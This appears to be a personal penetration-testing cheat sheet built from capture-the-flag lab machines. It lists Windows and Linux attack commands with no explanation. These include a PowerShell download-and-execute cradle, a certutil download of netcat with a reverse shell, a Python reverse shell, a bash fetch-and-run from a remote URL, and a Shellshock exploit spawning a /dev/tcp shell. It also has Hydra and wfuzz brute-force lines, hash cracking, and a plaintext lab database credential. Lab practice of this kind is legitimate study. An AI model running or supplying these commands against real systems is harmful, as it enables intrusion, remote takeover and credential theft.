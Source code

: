 # Windows

## Smb shares enumerate

`smbclient -L 10.10.10.134 -U " "%" " `

`smbclient -N -L //10.10.10.125`

## Hidden streams

* List files with streams: `dir \R`
* Read a stream from command line: `more < FileName:StreamName`

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

## Download nc and reverse shell

```
cmd.exe /C net use /D /Y * && cmd.exe /C certutil.exe -urlcache -split -f 'http://10.10.16.65/nc.exe' C:\Users\Public\nc.exe & C:\Users\Public\nc.exe 10.10.16.65 1234 -e powershell.exe
```

# Linux

## Information gather

### check if is the docker 

```
cat /proc/1/cgroup
```

## DNS zone transfer

`dig axfr @10.10.10.52 matis.htb`

## FTP download files 

`wget -r --no-passive ftp://10.10.10.106`

## Reverse shells

* socat file:\`tty\`,echo=0,raw udp-listen:4444
* `import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.16.28\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])`

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## Find exclude specific words

`find / -type f -name "filename" 2>&1 | grep -v "Permission denied`

## Check capacity

`getcap -r / 2>/dev/null`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`

# Tools

## Impacket

### mssql

#### mssql clinet connect

```
mssqlclient.py reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
```

#### check user's permissions

```
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

#### check databases

```
SELECT name FROM master.sys.databases
```


### openssl

#### obtain HTTPS certificate information

```
echo | openssl s_client -showcerts -servername 10.10.10.124 -connect 10.10.10.124:443 2>/dev/null | openssl x509 -inform pem -noout -text
```

### snmpwalk

#### information scan

```
snmpwalk -v 2c -c public 10.10.10.65
```

#### enable MIB

* apt install snmp-mibs-downloader
* comment out mibs in `/etc/snmp/snmap.conf`

### Cewl

#### Generate password list

```
cewl -w cewl-forum.txt -e -a http://gorum.bart.htb
```

### Hydra

#### Brute force login form http

```
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -Vv -f
 ```
 
 #### Brute force login form https
 
 ```
 hydra 10.10.10.43 -l whatever -P /opt/SecLists/Passwords/darkweb2017-top10000.txt https-post-form "/db/:password=^PASS^&remember=yes&login=log+in&proc_login=true:Incorrect password." -Vv -s 443
 ```

### John

#### 7z

```
/opt/john/run/7z2john.pl backup.7z > backup.hash
hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
```

### wfuzz

#### brute force subdomains

```
 wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1mil-110000.txt -u http://10.10.10.120/ -H 'Host: FUZZ.chaos.htb' --hh 73 --hc 400
 ```

### Nmap 

#### ldap

`nmap -p 389 --script ldap-search 10.10.10.119`

## network

### Test icmp

`tcpdump -i tun0 icmp`

## Exploits

### Shellshock

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.15.98/7777 0>&1 " http://10.10.10.56:80/cgi-bin/user.sh
```
